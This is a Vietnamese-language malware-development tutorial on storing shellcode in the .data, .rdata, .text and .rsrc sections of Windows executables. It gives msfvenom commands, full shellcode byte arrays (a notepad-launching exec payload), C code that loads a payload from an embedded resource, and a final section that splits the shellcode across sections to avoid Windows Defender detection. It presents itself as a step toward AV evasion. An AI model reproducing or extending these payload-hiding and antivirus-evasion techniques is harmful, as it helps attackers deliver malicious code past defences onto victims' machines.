




## Payload Placement


### Table of Contents
1. [Giới thiệu](#giới-thiệu)
2. [Tạo shellcode với msfvenom](#create-shellcode)
3. [.data section](#data-section)
4. [.rdata section](#rdata-section)
5. [.text section](#text-section)
6. [.rsrc section](#rsrc-section)
7. [Che giấu payload bằng cách lưu trữ đồng thời trên .data và .rdata section](#hide-payload)
### Giới thiệu <a name = "giới-thiệu"></a>  
Mã độc thường lưu trữ payload tại 4 sections sau:

- **.data**: Thường sử dụng để lưu trữ các biến cố định (static variables) và biến toàn cục (global variables). Các biến này chứa dữ liệu có thể thay đổi trong suốt quá trình thực thi của chương trình. Dữ liệu trong section này có quyền đọc/ghi.
- **.rdata**: Sử dụng để lưu trữ dữ liệu chỉ đọc (r trong rdata là read), vì vậy shellcode sẽ được lưu trong biến const sẽ được đặt trong section này.
- **.text**: Nơi lưu trữ mã máy của chương trình, thực thi khi chương trình chạy
- **.rsrc**: Lưu trữ tài nguyên của chương trình như hình ảnh, biểu tượng, âm thanh, văn bản, và các tài nguyên khác mà chương trình có thể sử dụng. Các tài nguyên này thường không phải là mã máy thực thi mà là dữ liệu được sử dụng bởi chương trình khi đang chạy.

Dưới đây là hình ảnh các section xem qua x64gdb:


### Tạo shellcode với msfvenom <a name = "create-shellcode"></a>
Phần này sử dụng shellcode mở notepad.exe: ```msfvenom -p windows/x64/exec CMD=notepad.exe -a x64 -f c ```

Nếu sử dụng như trên trong việc inject, sau khi thực thi xong phần shellcode sẽ exit chương trình, ta cần thêm tham số sau:

```
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -f c
```


### .data section
Để khai báo shellcode trong .data section, khai báo như 1 biến bình thường
```c
unsigned char payload[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51"
"\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52"
"\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed"
"\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44"
"\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44"
"\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49"
"\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a"
"\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"
"\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
"\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47"
"\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x6e\x6f\x74\x65\x70"
"\x61\x64\x2e\x65\x78\x65\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";
```
Mở x64dbg, tìm đến .data section sẽ thấy payload được lưu trữ tại đây


### .rdata section 
Sử dụng thêm ***const*** để tạo biến const, dữ liệu sẽ được lưu trữ tại *r.data*:
```c
const unsigned char payload[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51"
"\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52"
"\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed"
"\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44"
"\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44"
"\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49"
"\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a"
"\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"
"\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
"\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47"
"\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x6e\x6f\x74\x65\x70"
"\x61\x64\x2e\x65\x78\x65\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";
```
Kiểm tra với x64gdb


### .text section
Để lưu trữ được shellcode ở phần, cần thêm phần mã sau trước khi khao báo biến:
```c
#pragma section(".text")
__declspec(allocate(".text")) const unsigned char payload[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51"
"\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52"
"\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed"
"\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44"
"\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44"
"\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49"
"\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a"
"\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"
"\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
"\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47"
"\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x6e\x6f\x74\x65\x70"
"\x61\x64\x2e\x65\x78\x65\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";
```
Từ khóa *const* có thể có hoặc không, không làm ảnh hưởng đến kết quả.

Nhìn vào x64dbg, .text section bắt đầu từ địa chỉ *0x00007FF79CB41000*


Tìm kiếm địa chỉ payload trong section trên, ta được kết quả:


Vậy dữ liệu được lưu trữ ngay đầu section.

### .rsrc section
Resource là nơi lưu trữ các tài nguyên như đã nói ở phần mở đầu, vì vậy, phần shellcode sẽ được lưu trữ ở dạng raw dưới những
tài nguyên này, sau đó sẽ được load vào chương trình, tuy nhiên thì không thể chỉnh sửa shellcode trên rsrc, vì vậy sẽ cần sử
dụng các hàm cấp phát bộ nhớ như *HeapAlloc* để tải shellcode vào bộ nhớ hiện tại rồi sử dụng.

**1. Tạo shellcode với đuôi .icon**

Chuyển định dạng shellcode về raw rồi lưu vào file .ico để sử dụng

```
msfvenom -p windows/x64/exec CMD=notepad.exe -a x64 -f raw > shellcode.ico
```

**2. Tạo resource icon trong virsual studio**

Chuột phải vào *Resource File => Add => Resource...*



Chọn *Import* rồi lấy *shellcode.ico* đã tạo ở phần trước



Ở phần *Resource Type* nhập RCDATA rồi OK


Sau khi thực hiên xong có thể xem được file Resource đã add hiển thị payload


Xem trong file *resource.h* sẽ thấy ID của shellcode resource đã thêm, ID sẽ được sử dụng để load resource


**3. Load resource shellcode**

Để đọc được payload, cần sử dụng 4 WinAPI sau để tải resource:

- ***FindResourceW***: Tìm kiếm resource dựa trên ID, trả về HRSRC resource.

- ***LoadResource***: Trả về handle resource thông qua HRSRC ở trên.

- ***LockResource**: Trả về địa chỉ phần payload trong resource.

- ***SizeofResource***: Trả về size của resource.

```c
#include <stdio.h>
#include <Windows.h>
#include "resource.h"

#define DEBUG(x, ...) printf(x, ##__VA_ARGS__)

int main() {
HRSRC   hRsrc = NULL;
HGLOBAL   hGlobal = NULL;
PVOID   pPayload = NULL;
SIZE_T    sPayloadSize = NULL;


hRsrc = FindResourceW(NULL, MAKEINTRESOURCEW(IDR_RCDATA1), RT_RCDATA);
if (hRsrc == NULL) {
  DEBUG("[!] FindResourceW Failed With Error : %d \n", GetLastError());
  return -1;
}

hGlobal = LoadResource(NULL, hRsrc);
if (hGlobal == NULL) {
  DEBUG("[!] LoadResource Failed With Error : %d \n", GetLastError());
  return -1;
}

pPayload = LockResource(hGlobal);
if (pPayload == NULL) {
  DEBUG("[!] LockResource Failed With Error : %d \n", GetLastError());
  return -1;
}

sPayloadSize = SizeofResource(NULL, hRsrc);
if (sPayloadSize == NULL) {
  DEBUG("[!] SizeofResource Failed With Error : %d \n", GetLastError());
  return -1;
}

printf("[i] Payload address : 0x%p \n", pPayload);
printf("[i] sPayloadSize var : %ld \n", sPayloadSize);
printf("[#] Press <Enter> To Quit ...");
getchar();
return 0;
}
```


Xem kết quả trên x64dbg:


Code mình sẽ up kèm theo bài đăng.

### Che giấu payload bằng cách lưu trữ đồng thời trên .data và .rdata section <a name = "hide-payload"></a>
Nếu để nguyên shellcode và thực hiện lưu trữ trong .data, .rdata thì sẽ bị Windows defender phát hiện và báo mã độc.
Vì vậy phương pháp đơn giản nhất là sẽ lưu trữ xen kẽ 16 bytes của shellcode vào 2 section này, sau đó sẽ viết hàm để
tạo ra shellcode gốc để sử dụng. Nếu không build shellcode gốc và load lên mem thì sẽ không bị phát hiện bằng phương pháp này.

```c
# include <stdio.h>
# include <Windows.h>

unsigned char sc_0[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51";
const unsigned char sc_1[] = "\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52";
unsigned char sc_2[] = "\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0";
const unsigned char sc_3[] = "\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed";
unsigned char sc_4[] = "\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88";
const unsigned char sc_5[] = "\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44";
unsigned char sc_6[] = "\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48";
const unsigned char sc_7[] = "\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1";
unsigned char sc_8[] = "\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44";
const unsigned char sc_9[] = "\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49";
unsigned char sc_10[] = "\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a";
const unsigned char sc_11[] = "\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41";
unsigned char sc_12[] = "\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00";
const unsigned char sc_13[] = "\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b";
unsigned char sc_14[] = "\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff";
const unsigned char sc_15[] = "\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47";
unsigned char sc_16[] = "\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x6e\x6f\x74\x65\x70";
const unsigned char sc_17[] = "\x61\x64\x2e\x65\x78\x65\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";

unsigned char sc[18 * 16];
void build_sc() {
  memcpy(&sc[0], sc_0, 16);
  memcpy(&sc[16 * 1], sc_1, 16);
  memcpy(&sc[16 * 2], sc_2, 16);
  memcpy(&sc[16 * 3], sc_3, 16);
  memcpy(&sc[16 * 4], sc_4, 16);
  memcpy(&sc[16 * 5], sc_5, 16);
  memcpy(&sc[16 * 6], sc_6, 16);
  memcpy(&sc[16 * 7], sc_7, 16);
  memcpy(&sc[16 * 8], sc_8, 16);
  memcpy(&sc[16 * 9], sc_9, 16);
  memcpy(&sc[16 * 10], sc_10, 16);
  memcpy(&sc[16 * 11], sc_11, 16);
  memcpy(&sc[16 * 12], sc_12, 16);
  memcpy(&sc[16 * 13], sc_13, 16);
  memcpy(&sc[16 * 14], sc_14, 16);
  memcpy(&sc[16 * 15], sc_15, 16);
  memcpy(&sc[16 * 16], sc_16, 16);
  memcpy(&sc[16 * 17], sc_17, 16);
}
int main() {
  //if run build_sc(), shellcode will load to memory, AV scan memory will detection it. Need encode payload.
  //build_sc();
}
```
Trong phần tiếp theo, mình sẽ trình bày về các phương pháp encode shellcode để tránh AV.